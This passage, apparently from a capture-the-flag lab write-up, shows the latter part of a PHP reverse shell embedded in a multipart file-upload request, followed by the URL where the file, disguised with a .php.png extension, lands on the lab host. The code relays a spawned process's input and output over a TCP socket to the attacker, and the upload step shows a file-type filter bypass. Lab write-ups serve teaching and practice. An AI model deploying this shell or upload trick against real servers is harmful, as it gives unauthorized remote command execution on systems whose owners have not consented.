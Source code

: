 ```
        		if ($debug) printit("SOCK: $input");
        		fwrite($pipes[0], $input);
        	}
    
	// If we can read from the process's STDOUT
    	// send data down tcp connection
    	if (in_array($pipes[1], $read_a)) {
        		if ($debug) printit("STDOUT READ");
        		$input = fread($pipes[1], $chunk_size);
        		if ($debug) printit("STDOUT: $input");
        		fwrite($sock, $input);
        	}
    
	// If we can read from the process's STDERR
    	// send data down tcp connection
    	if (in_array($pipes[2], $read_a)) {
        		if ($debug) printit("STDERR READ");
        		$input = fread($pipes[2], $chunk_size);
        		if ($debug) printit("STDERR: $input");
        		fwrite($sock, $input);
        	}
    }

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    	if (!$daemon) {
        		print "$string\n";
        	}
    }

?> 

-----------------------------334986682910585201961787437875
Content-Disposition: form-data; name="submit"

go!
-----------------------------334986682910585201961787437875--
```

http://10.10.10.146/uploads/10_10_14_5.php.png

![](2021-02-10-11-37-32.png)
